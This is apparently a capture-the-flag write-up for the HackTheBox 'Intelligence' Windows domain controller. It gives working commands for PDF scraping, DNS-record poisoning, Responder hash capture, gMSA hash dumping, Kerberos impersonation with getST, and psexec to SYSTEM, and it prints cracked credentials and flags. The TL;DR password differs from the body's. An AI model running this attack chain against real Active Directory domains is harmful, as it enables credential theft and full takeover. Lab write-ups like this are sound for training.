



# Intelligence - HackTheBox - Writeup
Windows, 30 Base Points, Hard


## Machine



## TL;DR

To solve this machine, we begin by enumerating open services using ```namp``` – finding ports ```53```, ```80```,```88```,```88```,```135```,```139```,```445```,```464```,```593```,```636``` and ```3629```.

***User 1***: Discovering PDF's with filenames based upon the date, Building a customized wordlist based upon the date, Downloading the PDF's with ```python``` script and then examining users, Finding the password ```NewIntelligenceCorpUser987``` which is the password of ```Tiffany.Molina```.

***User 2***: Found PowerShell script ```downdetector.ps1``` which is scheduled a DNS request for each 5 min, Using ```Responder``` we found the NTLMv2 hash of ```Ted.Graves```.

***User 3***: Importing the ```bloodhound``` results for attack paths - Discovering we probably need to get access to the ```SVC_INT``` GMSA (Group Managed Service Account).


***Root***: Using impacket's ```getST``` to generate a SilverTicket which we can use for impersonating an Administrator, Using our ticket with ```psexec``` to gain access to the server as Administrator.


## Intelligence Solution


### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ nmap -sC -sV -oA nmap/Intelligence 10.10.10.248 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-02 22:48 IDT
Nmap scan report for 10.10.10.248
Host is up (0.069s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-03 02:53:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-08-03T02:56:19+00:00; +7h04m30s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-08-03T02:56:20+00:00; +7h04m29s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-08-03T02:56:19+00:00; +7h04m30s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=8/2%Time=61084C25%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h04m29s, deviation: 0s, median: 7h04m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-08-03T02:55:41
|_  start_date: N/A

```

By observing port 80 [http://10.10.10.248/](http://10.10.10.248/) we get the following web page:


If we clicked on Download documents:


We get two pdf files called ```2020-01-01-upload.pdf``` and ```2020-12-15-upload.pdf```.

By running ```exiftool``` on those files we get can see the following creators (users):
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ exiftool *.pdf | grep Creator
Creator                         : William.Lee
Creator                         : Jose.Williams
```

It's mean we can get users from pdf files, The pdf files name is ```yyyy-dd-mm-upload.pdf```, Let's write python code to retrieve all documents by dates as follow:
```python
import datetime
import urllib
from urllib.parse import parse_qsl, urljoin, urlparse
import urllib.request
from dateutil import parser

base=parser.parse("2020-01-01")

for i in range(365):
    next=base + datetime.timedelta(days=i)
    doc_name=next.strftime('%Y-%d-%m-upload') + ".pdf"
    url=urljoin('http://10.10.10.248/documents/', doc_name)
    try:
        urllib.request.urlretrieve(url, doc_name)
        print(f"Successfully downloaded {doc_name}")
    except:
        pass
```

By running the script we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ python3 get_documents.py 
Successfully downloaded 2020-01-01-upload.pdf
Successfully downloaded 2020-05-01-upload.pdf
Successfully downloaded 2020-08-01-upload.pdf
Successfully downloaded 2020-11-01-upload.pdf
Successfully downloaded 2020-01-02-upload.pdf
Successfully downloaded 2020-04-02-upload.pdf
Successfully downloaded 2020-06-02-upload.pdf
Successfully downloaded 2020-07-02-upload.pdf
Successfully downloaded 2020-09-02-upload.pdf
Successfully downloaded 2020-05-03-upload.pdf
Successfully downloaded 2020-06-03-upload.pdf
Successfully downloaded 2020-08-03-upload.pdf
Successfully downloaded 2020-11-03-upload.pdf
Successfully downloaded 2020-01-04-upload.pdf
Successfully downloaded 2020-03-04-upload.pdf
Successfully downloaded 2020-04-04-upload.pdf
Successfully downloaded 2020-06-04-upload.pdf
Successfully downloaded 2020-09-04-upload.pdf
Successfully downloaded 2020-03-05-upload.pdf
Successfully downloaded 2020-09-05-upload.pdf
Successfully downloaded 2020-10-05-upload.pdf
Successfully downloaded 2020-07-06-upload.pdf
Successfully downloaded 2020-09-06-upload.pdf
Successfully downloaded 2020-11-06-upload.pdf
Successfully downloaded 2020-05-07-upload.pdf
Successfully downloaded 2020-06-07-upload.pdf
Successfully downloaded 2020-06-08-upload.pdf
Successfully downloaded 2020-07-08-upload.pdf
Successfully downloaded 2020-08-09-upload.pdf
Successfully downloaded 2020-01-10-upload.pdf
Successfully downloaded 2020-11-10-upload.pdf
Successfully downloaded 2020-12-10-upload.pdf
Successfully downloaded 2020-02-11-upload.pdf
Successfully downloaded 2020-05-11-upload.pdf
Successfully downloaded 2020-09-11-upload.pdf
Successfully downloaded 2020-11-11-upload.pdf
Successfully downloaded 2020-03-12-upload.pdf
Successfully downloaded 2020-06-12-upload.pdf
```

Now, Let's get all users from those pdf files to file ```users```:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ exiftool *.pdf | grep Creator | cut -d ':' -f2 | cut -d ' ' -f 2
William.Lee
Scott.Scott
Jason.Wright
Veronica.Patel
Jose.Williams
Brian.Morris
Jennifer.Thomas
Thomas.Valenzuela
David.Mcbride
Jose.Williams
Anita.Roberts
Brian.Baker
Jose.Williams
David.Mcbride
David.Reed
Kaitlyn.Zimmerman
Jason.Patterson
Thomas.Valenzuela
David.Mcbride
Darryl.Harris
David.Wilson
Scott.Scott
Teresa.Williamson
John.Coleman
Samuel.Richardson
Ian.Duncan
Jason.Wright
Travis.Evans
David.Mcbride
Jessica.Moody
Ian.Duncan
Anita.Roberts
Kaitlyn.Zimmerman
Jose.Williams
Stephanie.Young
Samuel.Richardson
Tiffany.Molina
Ian.Duncan
```

By reading all pdf's we can see pdf ```2020-06-04-upload.pdf``` which contains password:



By enumerating ```smbclient``` we can find that the password from pdf ```NewIntelligenceCorpUser9876``` works with the user ```Tiffany.Molina```.

Let's use those credentials:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ smbclient -U Tiffany.Molina -L 10.10.10.248
Enter WORKGROUP\Tiffany.Molina's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk      
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      

```

By accessing to ```Users``` share we can get the user flag:

```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ smbclient -U Tiffany.Molina \\\\10.10.10.248\\Users
Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Mon Apr 19 04:20:26 2021
  ..                                 DR        0  Mon Apr 19 04:20:26 2021
  Administrator                       D        0  Mon Apr 19 03:18:39 2021
  All Users                       DHSrn        0  Sat Sep 15 10:21:46 2018
  Default                           DHR        0  Mon Apr 19 05:17:40 2021
  Default User                    DHSrn        0  Sat Sep 15 10:21:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 10:11:27 2018
  Public                             DR        0  Mon Apr 19 03:18:39 2021
  Ted.Graves                          D        0  Mon Apr 19 04:20:26 2021
  Tiffany.Molina                      D        0  Mon Apr 19 03:51:46 2021

		3770367 blocks of size 4096. 1449246 blocks available
smb: \> cd Tiffany.Molina
smb: \Tiffany.Molina\> cd Desktop
smb: \Tiffany.Molina\Desktop\> get user.txt
getting file \Tiffany.Molina\Desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Tiffany.Molina\Desktop\> 
```

The user flag is ```987c02776352197052e9c29d365ae2f8```.

### User 2

By enumerating ```IT``` share we can see the following PowerShell script:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ smbclient \\\\10.10.10.248\\IT -U Tiffany.Molina
Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Apr 19 03:50:55 2021
  ..                                  D        0  Mon Apr 19 03:50:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 03:50:55 2021

		3770367 blocks of size 4096. 1462029 blocks available
smb: \> 
```

The script contains the following:
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}

```

As we can see, It's make request to Active Directory ```"AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")``` to get all DNS records starts with ```web*```.

By using the following article [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/) we can use script called [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py).

The ```dnstool.py``` utility has several options, including one to add/modify records, and that's exactly what we need.

Let's add a new entry to DNS records ```webabc.intelligence.htb``` and point it to our host as DNS server as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence/krbrelayx]
└──╼ $ python3 dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 -r webabc.intelligence.htb -d 10.10.14.14 --action add --allow-multiple 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully

```

As we can see the script is scheduled to run every 5 min, Let's run ```responder``` to create a DNS server and after a few minutes we get the following DNS request:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ sudo responder -I tun0
[+] Listening for events...
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:56a451bae5444f2f:B37BCD29A6988BDE93080B5C014E6713:0101000000000000BD89679D598BD7012B72306C124A485B000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0008003000300000000000000000000000002000003D39864916282ECAE67583BE2ED7D66D346B2F3DF9CC442D6A4802A511C9FC8C0A001000000000000000000000000000000000000900320048005400540050002F007700650062002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

```

We get an NTLMv2 hash of ```intelligence\Ted.Graves``` user, By cracking it using ```john``` we get:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ john --show hash
Ted.Graves:Mr.Teddy:intelligence:56a451bae5444f2f:B37BCD29A6988BDE93080B5C014E6713:0101000000000000BD89679D598BD7012B72306C124A485B000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0008003000300000000000000000000000002000003D39864916282ECAE67583BE2ED7D66D346B2F3DF9CC442D6A4802A511C9FC8C0A001000000000000000000000000000000000000900320048005400540050002F007700650062002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

```

Let's login with those credentials ```Ted.Graves:Mr.Teddy``` to ```Users``` share using ```smbclient```.


### User 3 

Let's run [BloodHound.py](https://github.com/fox-it/BloodHound.py) to look at what we can do using our username:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ python3 bloodhound.py -c all -u Ted.Graves -p Mr.Teddy -d intelligence.htb -gc dc.intelligence.htb -ns 10.10.10.248 --zip
INFO: Found AD domain: intelligence.htb
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 42 users
INFO: Found 54 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
WARNING: Could not resolve: svc_int.intelligence.htb: The DNS operation timed out after 3.000938892364502 seconds
INFO: Done in 00M 18S
INFO: Compressing output into 20210807234232_bloodhound.zip
```

By analyzing the ```Shortest Paths to Unconstrained Delegation Systems``` we get:



As we can see, we need to get user ```svc_int``` using ```ReadGMSAPassword```, Then get DC using ```Allow to Delegate``` / ```Unconstrained Delegation```.

Using this article [http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html) we can do it without a shell.


So first, Let's get user ```svc_int``` by ```ReadGMSAPassword``` using [gMSADumper](https://github.com/micahvandeusen/gMSADumper):
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::47e89a6afd68e3872ef1acaf91d0b2f7

```
Now we have the user ```svc_int```.

### Root

Next, Let's create ```ccache``` file as Administrator as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ python3 getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :47e89a6afd68e3872ef1acaf91d0b2f7 -impersonate Administrator
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

```

Next, we need to export the ```ccache``` file to ```KRB5CCNAME```:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ export KRB5CCNAME=/hackthebox/Intelligence/Administrator.ccache
```

And now we can run ```psexec.py``` as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Intelligence]
└──╼ $ python psexec.py -dc-ip 10.10.10.248 -target-ip 10.10.10.248 -no-pass -k intelligence.htb/Administrator@dc.intelligence.htb
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.248.....
[*] Found writable share ADMIN$
[*] Uploading file hJZgRNfT.exe
[*] Opening SVCManager on 10.10.10.248.....
[*] Creating service YFYL on 10.10.10.248.....
[*] Starting service YFYL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\users\administrator\desktop\root.txt
29fdad6f113be5f0219b74e98234c214

C:\Windows\system32>
```

And we get the root flag ```29fdad6f113be5f0219b74e98234c214```.